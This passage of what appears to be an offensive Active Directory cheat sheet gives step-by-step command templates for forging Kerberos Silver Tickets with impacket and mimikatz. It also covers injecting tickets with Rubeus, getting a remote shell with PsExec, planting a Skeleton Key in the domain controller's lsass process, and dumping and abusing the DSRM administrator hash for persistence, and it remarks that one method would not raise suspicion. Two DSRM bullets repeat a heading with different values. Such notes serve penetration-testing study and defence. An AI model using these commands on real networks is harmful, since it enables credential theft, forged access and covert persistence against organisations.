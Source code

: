 			* You also need the `domain SID` which you can obtain from a Linux attack host by using [lookupsid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py) from `impacket` (this requires valid domain credentials):
				* `lookupsid.py domain\user:'password'@<Insert DC IP addr here>`
			* One example **SPN** you can use is the `CIFS` service which would give you access to the file system of a victim
				* Other potential target services can be found [here](https://adsecurity.org/?page_id=183)
	* Would allow an attacker to forge a ticket that can be used to access that service account's service
	* By default, the lifetime of these tickets is 30 days since that's how frequently computer accounts reset their passwords by default
	* To create/forge a Silver Ticket from a Linux attack host, [ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py) can be used:
		* `python ticketer.py -nthash <insert service account's NTLM here here> -domain-sid <insert domain SID here> -domain <insert domain name here> -spn <insert SPN here> <insert username to forge ticket for here>`
	* To create/forge a Silver Ticket from a Windows attack host, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used:
		* `kerberos::golden /domain:<insert domain here> /sid:<insert domain SID here> /rc4:<insert NTLM hash of service account here> /user:<insert user to forge/create ticket for> /service:<insert service SPN here> /target:<target domain FQDN>`
			* You can also use a `aes256` or `aes128` key by replacing `/rc4` with your `aes256` or `aes128` key
		* Then we can inject the Silver Ticket in memory using either `mimikatz` or [Rubeus](https://github.com/GhostPack/Rubeus):
			* `mimikatz.exe "kerberos::ptt ticket.kirbi"`
			* `.\Rubeus.exe ptt /ticket:ticket.kirbi`
		* Now we can obtain a remote shell using [PsExec](https://github.com/EliteLoser/Invoke-PsExec):
			* `.\PsExec.exe  -accepteula \\<insert FQDN name here> cmd`
* [Skeleton Key](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/skeleton-key) - A *persistence* mechanism allowing an attacker to patch the DC's `lsass.exe` process so they can authenticate as any user with the same password (`mimikatz` by default). This attack must be ran on the DC.
	* In addition to us being able to authenticate as any user with the same password, we'd also be able to authenticate normally with the legitimate username & password combinations so this wouldn't raise any suspicions
	* As long as the `lsass.exe` process isn't killed or restarted, we can authenticate with the patched credentials
	* An attacker could accomplish this using `mimikatz`:
		* The `misc::skeleton` module can help us do this (Default *Skeleton Key* is going to be `mimikatz`)
		* `privilege::debug` then `misc::skeleton`, then you should be able to authenticate as any user on the domain using the password `mimikatz`
* [Directory Services Restore Mode (DSRM) AD Account](https://adsecurity.org/?p=1785) - DSRM is a *safe mode* of sorts for any DC. It's essentially the *local admin* account on a DC. The password for this account is first set when a server is promoted to a DC & is rarely changed, so it makes it an attractive target for persistence since it's often overlooked
	* Name of the DSRM account is **Administrator** & is the DC's local admin account
	* We can utilize the DSRM AD account as a means of **persistence** since the password to this account is rarely changed since it's usually set & forgot about when the server is first promoted to be a DC
	* We can dump the NTLM hash by using `mimikatz`:
		* `token::elevate`
		* `lsadump::sam`
	* After the hash is obtained, we can use it through various ways when we want to access & login to the DSRM account:
		* Restarting the server in *Directory Services Restore Mode*:
			* `bcdedit /set safeboot /dsrepair`
		* Accessing DSRM without rebooting (only works on *Windows Server 2008 & newer*):
			* Set registry key `DsrmAdminLogonBehavior` to 1
			* Stop AD service
			* Login using DSRM credentials on the console
		* Accessing DSRM without rebooting (only works on *Windows Server 2008 & newer*):
			* Set registry key `DsrmAdminLogonBehavior` to 2